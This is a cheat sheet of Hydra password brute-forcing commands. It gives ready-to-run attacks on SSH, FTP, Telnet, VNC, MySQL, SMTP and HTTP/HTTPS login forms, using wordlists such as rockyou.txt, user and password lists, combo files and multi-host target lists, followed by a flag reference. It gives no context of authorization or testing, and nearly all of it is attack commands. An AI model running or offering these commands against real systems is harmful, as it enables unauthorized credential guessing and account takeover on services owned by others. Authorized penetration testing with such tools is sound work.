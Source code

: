 # HYDRA

# SSH (single user)
hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 -V -o hydra-ssh.txt ssh://192.168.1.100

# SSH (multi-host from file)
hydra -L users.txt -P passlist.txt -M hosts.txt -t 2 -V -o hydra-ssh-multi.txt ssh

# FTP (user list + passlist)
hydra -L users.txt -P passwords.txt -t 6 -V -o hydra-ftp.txt ftp://192.168.1.50

# Telnet (single user)
hydra -l admin -P /usr/share/wordlists/fast.txt -t 6 -V -o hydra-telnet.txt telnet://10.0.0.20

# VNC (password list)
hydra -P /usr/share/wordlists/vnc.txt -t 4 -V -o hydra-vnc.txt vnc://192.168.1.120

# MySQL (db auth)
hydra -L dbusers.txt -P dbpass.txt -s 3306 -t 4 -V -o hydra-mysql.txt mysql://192.168.1.200

# SMTP (AUTH)
hydra -L users.txt -P pass.txt -s 587 -t 4 -V -o hydra-smtp.txt smtp://mail.example.com

# HTTP POST form (replace PATH, failure string)
# Template: "/path:field1=^USER^&field2=^PASS^:F=FailureString"
hydra -L users.txt -P pass.txt -t 8 -V -o hydra-http.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"

# HTTPS (use https-post-form if available)
hydra -L users.txt -P pass.txt -t 6 -V -o hydra-https.txt 10.10.10.10 https-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"

# Use a combo file (user:pass per line)
hydra -C combos.txt -t 4 -V -o hydra-combo.txt ftp://192.168.1.50

# Exit on first found for a host
hydra -l admin -P passlist.txt -f -t 4 -V ssh://192.168.1.100 -o hydra-firstfound.txt

# Use SSL/TLS where supported (service modules vary)
hydra -L users.txt -P pass.txt -S -t 4 -V -o hydra-ssl.txt smtp://mail.example.com:465

# Helpful quick flags:
# -l <user>       single username
# -L <file>       username list
# -p <pass>       single password
# -P <file>       password list
# -C <file>       combo file (user:pass)
# -M <file>       target hosts list
# -t <tasks>      parallel tasks (threads)
# -V              verbose (show attempts)
# -f              stop after first valid credential per host
# -o <file>       write found results

# Example: multi-target, threaded, write results
hydra -L users.txt -P passlist.txt -M targets.txt -t 3 -V -f -o hydra-results.txt ssh
